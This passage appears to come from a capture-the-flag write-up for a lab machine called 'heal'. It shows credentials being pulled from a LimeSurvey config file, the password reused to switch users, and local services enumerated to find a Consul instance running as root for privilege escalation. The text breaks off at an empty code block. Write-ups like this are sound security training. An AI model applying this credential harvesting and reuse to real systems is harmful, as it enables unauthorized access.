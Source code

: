 ## 3. Post-Exploitation / Loot

Extracted DB credentials from LimeSurvey config:
```php
www-data@heal:~ cat application/config/config.php
	return array(
	'components' => array(
		'db' => array(
			'connectionString' => 'pgsql:host=localhost;port=5432;user=db_user;password=AdmiDi0_pA$$w0rd;dbname=survey;',
			'emulatePrepare' => true,
			'username' => 'db_user',
			'password' => 'AdmiDi0_pA$$w0rd',
			'charset' => 'utf8',
			'tablePrefix' => 'lime_',
		),
```

Credentials reused to switch to user `ron`:
```bash
su ron
Password: AdmiDi0_pA$$w0rd
```
Accessed `user.txt` flag.

---

## 4. Privilege Escalation

### 🔹 4.1 Enumeration
Identified local Consul service running as root:
```bash
netstat -tulnp 
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 localhost:8302          0.0.0.0:*               LISTEN      -                   
tcp        0      0 localhost:8300          0.0.0.0:*               LISTEN      -                   
tcp        0      0 localhost:8301          0.0.0.0:*               LISTEN      -                   
tcp        0      0 localhost:8503          0.0.0.0:*               LISTEN      -                   
tcp        0      0 localhost:8500          0.0.0.0:*               LISTEN      -                   
tcp        0      0 localhost:8600          0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:http            0.0.0.0:*               LISTEN      -                   
tcp        0      0 localhost:3000          0.0.0.0:*               LISTEN      -                   
tcp        0      0 localhost:3001          0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:ssh             0.0.0.0:*               LISTEN      -                   
tcp        0      0 localhost:domain        0.0.0.0:*               LISTEN      -                   
tcp        0      0 localhost:postgresql    0.0.0.0:*               LISTEN      -                   
tcp        0      0 localhost:47972         localhost:postgresql    TIME_WAIT   -        

```
Confirmed via `/etc/systemd/system/consul.service` that service runs as root.
```bash
```
